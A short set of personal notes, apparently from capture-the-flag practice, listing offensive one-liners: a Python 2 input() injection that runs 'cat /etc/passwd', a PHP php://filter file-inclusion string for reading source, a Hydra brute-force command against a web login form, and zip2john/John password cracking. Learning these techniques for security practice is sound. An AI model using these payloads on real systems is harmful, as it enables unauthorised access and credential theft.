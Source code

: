 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

__import__("os").system('cat /etc/passwd')


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition"   , -s specifies port , even if u send pass only, specify user for it to run smoothly


## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash  ( depends on the format of archive/hash, look at previous output )
